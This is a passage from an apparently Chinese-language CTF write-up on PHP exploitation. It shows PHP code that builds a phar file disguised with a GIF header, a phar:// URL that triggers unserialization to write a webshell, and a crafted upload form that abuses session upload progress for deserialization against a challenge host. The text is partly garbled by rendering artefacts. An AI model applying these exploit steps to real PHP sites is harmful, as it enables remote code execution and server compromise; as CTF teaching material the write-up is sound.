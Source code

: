 ```
         $phar = new Phar("phar.phar");
         $phar-&gt;startBuffering();
         $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub，增加gif文件头用以欺骗检测
         $phar-&gt;setMetadata($this); //将自定义meta-data存入manifest
         $phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
                 //签名自动计算
         $phar-&gt;stopBuffering();

     `}`
 `}`

$pic=new PicManager('/var/www/html/sandbox');
$pic-&gt;gen();
```

运行 php 脚本会在当前目录下生成 phar.phar 文件（需要在 php.ini 中将 phar.readonly 设置为 Off）

接着将 phar.phar 重命名为 phar.gif ，上传之后同样复制出地址，利用 phar 协议包含文件以后，就会触发反序列化漏洞，将我们前面 exp 中的代码执行（生成 H4lo.php）。

```
http://49.4.68.67:86/?act=get&amp;pic=phar:///var/www/html/sandbox/a6bfb20ba19df73fcceb438f5f75948f/1b33718042e7dfe8fac079be96ebc4d9.gif
```
- 这里只需要 phar://xxx.gif 的形式就好了，因为这是一个 phar 对象文件，不是一个压缩包
访问一下，这样就得到 flag 了：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.imgur.com/t1ypJew.png)

### <a name="PHP%20%E8%87%AA%E5%8C%85%E5%90%AB%E7%89%B9%E6%80%A7"></a>PHP 自包含特性

这个技巧可以看我之前的写过的[一篇文章](https://www.anquanke.com/post/id/153376)，也是来源于一道 ctf （百度杯 nlog 进阶版）

这个自包含和下面的反序列化上传的姿势，都是需要自己构造文件上传页面，感觉脑洞还是挺大了，稍微了解一下就好了

### <a name="%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8A%E4%BC%A0"></a>反序列化上传

这个也是来源于一道 ctf（jarvisoj phpinfo），题目地址

[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784/)

附上详细的解答：

[https://blog.csdn.net/wy_97/article/details/78430690](https://blog.csdn.net/wy_97/article/details/78430690)

简而言之，就是自己构造一个上传界面，将 file 字段的 filename 定义为反序列化的字符串，服务器处理的时候就会触发这个漏洞。

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;test XXE&lt;/title&gt;
    &lt;meta charset="utf-8"&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data"&gt;&lt;!--     
不对字符编码--&gt;
        &lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" /&gt;
        &lt;input type="file" name="file" /&gt;
        &lt;input type="submit" value="go" /&gt;
    &lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;
```